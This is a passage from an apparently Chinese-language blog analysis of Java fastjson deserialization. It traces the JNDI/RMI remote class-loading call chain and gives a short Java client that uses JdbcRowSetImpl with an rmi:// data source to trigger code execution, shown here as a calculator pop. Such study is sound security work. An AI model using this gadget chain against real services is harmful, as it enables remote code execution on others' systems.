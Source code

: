 最后在IDEA运行Client.java

![0-1](https://milkfr.github.io/assets/images/posts/2019-07-22-analysis-java-deserialize-fastjson/0-1.png)

可以看到8081端口的文件被读取了，然后客户端也执行了弹计算器的代码

#### 调试调用链
调试调用链是为了帮我们有一些更加清晰认识

反正就是debug这个Client.java的代码，调试出大概这样一条调用链，这个链上没什么设计模式，比较容易调试和理解
```
getObjectFactoryFromReference:146, NamingManager (javax.naming.spi)  // 判断class是本地还是codebase加载
getObjectInstance:319, NamingManager (javax.naming.spi)  // 判断是Reference进入到getObjectFactoryFromReference中
decodeObject:456, RegistryContext (com.sun.jndi.rmi.registry)  // 因为RMI绑定的是Reference对象，进入到NamingManager中
lookup:120, RegistryContext (com.sun.jndi.rmi.registry)  // 获取RMI服务IP地址等信息
lookup:203, GenericURLContext (com.sun.jndi.toolkit.url)  // 根据不同协议判断路线，这里是RMI路线
lookup:411, InitialContext (javax.naming)  // 重载封装一下GenericURLContext
main:11, Client
```

这里有一个codebase的概念，现在理解为本地没有class的话，从远程加载的一个机制就可以，详细还要其他再说

然后就加载了远程了class，执行代码，就造成了漏洞

上面这些说明只是方便我们理解

#### 引申的我们要用的调用链
把上面Client.java的代码该一下

```
import com.sun.rowset.JdbcRowSetImpl;

public class Client {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl JdbcRowSetImpl_inc = new JdbcRowSetImpl();
        JdbcRowSetImpl_inc.setDataSourceName("rmi://127.0.0.1:1099/test");
        JdbcRowSetImpl_inc.setAutoCommit(true);
    }
}
```

运行一下，就会发现，还是会弹计算器，debug看调用栈，发现和上面除了一开始几乎一样

```
getObjectFactoryFromReference:142, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:456, RegistryContext (com.sun.jndi.rmi.registry)
lookup:120, RegistryContext (com.sun.jndi.rmi.registry)
lookup:203, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:411, InitialContext (javax.naming)
connect:643, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4081, JdbcRowSetImpl (com.sun.rowset)
main:14, Client
```
